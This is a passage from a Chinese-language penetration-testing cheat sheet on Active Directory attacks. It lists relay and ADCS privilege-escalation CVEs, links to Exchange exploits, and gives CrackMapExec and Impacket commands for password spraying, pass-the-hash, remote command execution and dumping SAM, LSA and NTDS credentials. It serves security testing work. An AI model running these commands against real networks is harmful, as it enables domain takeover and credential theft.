		+ 攻击者帐户使用DCSync转储AD域中的所有域用户密码哈希值（包含域管理员的hash，此时已拿下整个域）。
	- 利用方式
		+ https://github.com/Ridter/CVE-2019-1040
		+ https://github.com/SecureAuthCorp/impacket
		+ https://github.com/dirkjanm/krbrelayx
		+ https://github.com/Ridter/CVE-2019-1040
		+ https://github.com/Ridter/CVE-2019-1040-dcpwn
	- 参考资料
		+ 同一网段内：https://www.freebuf.com/vuls/274091.html
		+ 隧道下：https://zhuanlan.zhihu.com/p/142080911
+ 域委派攻击
	- https://mp.weixin.qq.com/s/GdmnlsKJJXhElA4GuwxTKQ
+ NTLM Relay
	- https://www.anquanke.com/post/id/193149
	- https://www.anquanke.com/post/id/193493
	- https://www.anquanke.com/post/id/194069
	- https://www.anquanke.com/post/id/194514
+ ADCS漏洞–ESC8(PetitPotam)(ADCS relay)
	- ESC8是一个http的ntlm relay，原因在于ADCS的认证中支持NTLM认证
	- 攻击效果：将普通域用户提升到域管权限
	- 利用条件
		+ 未打adcs的补丁
		+ 有两台域控
		+ 有adcs服务
	- 利用方式
		+ https://blog.csdn.net/qq_43645782/article/details/119322322
		+ https://forum.butian.net/share/1583
+ ADCS漏洞–CVE-2022–26923
	- 通过构造机器账户并篡改dNSHostName属性，在证书申请时AD CS将dNSHostName属性嵌入证书中，进而机器账户获得高权限的域控身份。
	- 攻击效果：允许低权限用户在安装了 Active Directory 证书服务 (AD CS) 服务器角色的默认 Active Directory 环境中将权限提升到域管理员。
	- 影响版本
		+ Windows 8.1
		+ Windows 10 Version 1607, 1809,1909, 2004, 20H2, 21H1, 21H2
		+ Windows 11
		+ Windows Server 2008，2012，2016，2019，2022
	- 利用条件
		+ 该提权漏洞适用于所有的Windows服务器活动目录版本，包含目前位于微软产品支持范围内的Windows Server 2012 R2到Windows Server 2022，以及超出产品支持范围的旧Windows服务器版本。
		+ 入侵者至少控制一个活动目录用户账户，该用户账户对于活动目录中至少一个计算机账户具有“Validated write to DNS host name”权限。默认情况下，单个活动目录普通域用户可以加入或创建（包含创建空账户）10个计算机账户到活动目录中，并对自己所加入/创建的计算机账户具有CREATOR OWNER管理权限（包含“Validated write to DNShost name”权限）。因此该权限较为容易获得。
		+ 在活动目录内部部署有企业证书服务，并允许上述被控制的计算机账户申请计算机身份验证证书。企业证书服务是活动目录中广泛部署的一种相关基础服务，并且默认情况下，与活动目录集成的企业证书服务默认即允许域内计算机申请计算机身份验证证书。
	- 参考资料
		+ https://forum.butian.net/share/1578
		+ https://forum.butian.net/share/1583

可控制Exchange服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2018-8581
	- Microsoft Exchange任意用户伪造漏洞
	- https://github.com/Ridter/Exchange2domain
	- https://github.com/WyAtu/CVE-2018-8581
+ CVE-2020-0688
	- Microsoft Exchange 反序列化RCE
	- https://github.com/zcgonvh/CVE-2020-0688

+ CVE-2021-26855/CVE-2021-27065
	- Exchange ProxyLogon远程代码执行漏洞
	- https://github.com/hausec/ProxyLogon
+ CVE-2020-17144
	- Microsoft Exchange 远程代码执行漏洞
	- 利用条件：Exchange2010
	- https://github.com/Airboi/CVE-2020-17144-EXP
+ CVE-2020-16875
	- Microsoft Exchange 远程代码执行漏洞
	- https://srcincite.io/pocs/cve-2020-16875.py.txt
+ CVE-2021-34473
	- Exchange ProxyShell SSRF
	- https://github.com/dmaasland/proxyshell-poc
+ CVE-2021-33766
	- Exchange ProxyToken 信息泄露漏洞
	- https://github.com/bhdresh/CVE-2021-33766-ProxyToken

相关工具
--------------------------------

内网扫描
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ auxiliary/scanner/discovery/udp_sweep    #基于udp协议发现内网存活主机
+ auxiliary/scanner/discovery/udp_probe    #基于udp协议发现内网存活主机
+ auxiliary/scanner/netbios/nbname         #基于netbios协议发现内网存活主机
+ auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描
+ nmap端口扫描

CrackMapExec 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 介绍：域环境（活动目录）渗透测试中一站式便携工具，列举登录用户、通过SMB(Server Message Block)网络文件共享协议爬虫列出SMB分享列表。执行类似于Psexec的攻击、使用powerShell脚本执行自动式Mimikatz/Shellcode/DLL注入到内存中，dump NTDS.dit密码。
+ 地址：``https://github.com/byt3bl33d3r/CrackMapExec``
+ 安装
	::
	
		最方便：
		apt-get install crackmapexec
		避免有坑：
		apt-get install -y libssl-dev libffi-dev python-dev build-essential
		pip install --user pipenv
		git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
		cd CrackMapExec && pipenv install
		pipenv shell
		python setup.py install
+ 说明
	- 帮助：``crackmapexec --help``
	- 根据协议获取帮助信息：``crackmapexec smb --help``
	- protocol：``ftp,smb,ssh,winrm,ldap,rdp,mssql``
	- 基本探测
		::
		
			crackmapexec [protocol] test.com
			crackmapexec [protocol] 192.168.3.70/24
			crackmapexec [protocol] 192.168.3.70-77  192.168.4.1-20
			crackmapexec [protocol] ~/ip.txt
	- 携带认证信息
		::
		
			crackmapexec [protocol] 192.168.3.70 -u administrator -p 'admin!@#45'
			携带hash：
			-H HASH [HASH ...], --hash HASH [HASH ...] NTLM hash(es) or file(s) containing NTLM hashes
	- 协议探测：``crackmapexec  smb 192.168.3.73-76``
	- 密码喷射
		::
		
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45'
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' 'Admin12345'
			crackmapexec smb 192.168.3.73-144 -u administrator  sqladmin -p 'admin!@#45' 'Admin12345'
			crackmapexec smb 192.168.3.73-144 -u ~/name.txt -p ~/pass.txt
			crackmapexec smb 192.168.3.73-144 -u ~/name.txt -H ~/ntlmhash.txt
			crackmapexec smb 192.168.3.73-144 -u user -H 'NTHASH'
			crackmapexec smb 192.168.3.73-144 -u user -H 'LMHASH:NTHASH'
	- 执行命令：``crackmapexec smb 192.168.3.144 -u administrator -p 'admin!@#45' -x whoami``
	- 凭证获取
		::
		
			crackmapexec smb 192.168.3.144 -u administrator -p 'admin!@#45' --sam
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --lsa
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds vss
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds-history
	- Sessions枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --sessions``
	- 共享枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --shares``
	- 磁盘枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --disk``
	- 登录用户枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --loggedon-users``
	- RID爆破枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --rid-brute``
	- 域用户枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --users``
	- 组枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --groups``
	- 本地组枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --local-groups``
	- 域密码策略枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --pass-pol``

Impackt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 安装
	- git clone https://github.com/CoreSecurity/impacket.git
	- cd impacket/
	- python setup.py install
+ 通用选项
	- 密码认证连接：``python3 xxx.py [域]/[用户名]:[密码]@[目标ip]``
	- hash认证连接：``python3 xxx.py [域]/[用户名]@ip -hashes :161cff084477fe596a5db81874498a24``
	- Kerberos认证：``export KRB5CCNAME=ad01.ccache ``,``python3 xxx.py -k -no-pass``
	- 指定目标IP：``-target-ip 192.168.40.156``
	- 指定域控IP：``-dc-ip 192.168.40.156``
+ psexec.py
	- 类似PSEXEC的功能示例，使用remcomsvc（https://github.com/kavika13/remcom）。
+ smbexec.py：
	- 与使用remcomsvc的psexec w/o类似的方法。这里描述了该技术。实例化本地smbserver以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。
+ atexec.py
	- 通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。
+ wmiexec.py
	- 通过Windows Management Instrumentation使用的半交互式shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。
+ dcomexec.py
	- 类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点。目前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。
+ GetTGT.py
	- 指定密码，哈希或aesKey，此脚本将请求TGT并将其保存为ccache。
+ GetST.py
	- 指定ccache中的密码，哈希，aesKey或TGT，此脚本将请求服务票证并将其保存为ccache。如果该帐户具有约束委派（具有协议转换）权限，您将能够使用-impersonate参数代表另一个用户请求该票证。
+ GetPac.py
	- 获得指定目标用户的PAC（权限属性证书）结构，该结构仅具有正常的经过身份验证的用户凭据。它通过混合使用[MS-SFU]的S4USelf +用户到用户Kerberos身份验证组合来实现的。
+ GetUserSPNs.py
	- 查找和获取与普通用户帐户关联的服务主体名称。
+ GetNPUsers.py
	- 尝试为那些设置了属性“不需要Kerberos预身份验证”的用户获取TGT（UF_DONT_REQUIRE_PREAUTH)。
+ ticketer.py
	- 从头开始或基于模板（根据KDC的合法请求）创建金/银票据，允许您在PAC_LOGON_INFO结构中自定义设置的一些参数，特别是组、外接程序、持续时间等。
+ raiseChild.py
	- 通过（ab）使用Golden Tickets和ExtraSids的基础来实现子域到林权限的升级。
+ samrdump.py
	- 从MSRPC套件与安全帐户管理器远程接口通信的应用程序中。它列出了通过此服务导出的系统用户帐户、可用资源共享和其他敏感信息。
+ secretsdump.py
	- 执行各种技术从远程机器转储Secrets。
+ mimikatz.py
	- 远程mimikatz RPC服务器的迷你shell。
+ ntlmrelayx.py
	- 此脚本执行NTLM中继攻击，设置SMB和HTTP服务器并将凭据中继到许多不同的协议。
+ karmaSMB.py
	- 无论指定的SMB共享和路径名如何，都会响应特定文件内容的SMB服务器。
+ smbserver.py
	- SMB服务器的Python实现，允许快速设置共享和用户帐户。
+ smbclient.py
	- 通用的SMB客户端。
+ wmiquery.py
	- 它允许发出WQL查询并在目标系统上获取WMI对象的描述（例如，从win32_account中选择名称）
+ wmipersist.py
	- 此脚本创建/删除wmi事件使用者/筛选器，并在两者之间建立链接，以基于指定的wql筛选器或计时器执行Visual Basic Basic。
+ lookupsid.py
	- 安全标识符（SID）是可变长度的唯一值，用于标识用户帐户，通过[MS-LSAT] MSRPC接口的Windows SID暴力破解查找远程用户和组。
+ reg.py
	- 通过[ms-rrp]msrpc接口远程注册表操作工具。
+ rpcdump.py
	- 转储目标上注册的RPC端点和字符串绑定列表,它还将尝试将它们与已知端点列表进行匹配。
+ opdump.py
	- 这将绑定到给定的hostname:port和msrpc接口。然后，它尝试依次调用前256个操作号中的每一个，并报告每个调用的结果。
+ services.py
	- 此脚本可用于通过[MS-SCMR] MSRPC接口操作Windows服务。它支持启动，停止，删除，状态，配置，列表，创建和更改。
+ getArch.py
	- 此脚本将与目标（或目标列表）主机连接，并使用文档化的msrpc功能收集由（ab）安装的操作系统体系结构类型。
+ netview.py
	- 获取在远程主机上打开的会话列表，并跟踪这些会话在找到的主机上循环，并跟踪从远程服务器登录/退出的用户。
+ goldenPac.py
	- 利用MS14-068。保存Golden Ticket并在目标位置启动PSExec会话。
+ sambaPipe.py
	- 该脚本将利用CVE-2017-7494，通过-so参数上传和执行用户指定的共享库。
+ smbrelayx.py
	- 利用SMB中继攻击漏洞CVE-2015-0005。如果目标系统正在执行签名并且提供了计算机帐户，则模块将尝试通过NETLOGON收集SMB会话密钥。
+ mssqlinstance.py
	- 从目标主机中检索MSSQL实例名称。
+ mssqlclient.py
	- MSSQL客户端,支持SQL和Windows身份验证（哈希）.它还支持TLS。
+ registry-read.py
	- Windwows注册表文件格式实现。它允许解析脱机注册表配置单元.
+ GetADUsers.py
	- 此脚本将收集有关域用户及其相应电子邮件地址的数据。它还将包括有关上次登录和上次密码设置属性的一些额外信息。
+ ping.py
	- 简单的ICMP ping。
+ ping6.py
	- 简单的IPv6 ICMP ping，它使用ICMP echo和echo-reply数据包来检查主机的状态。
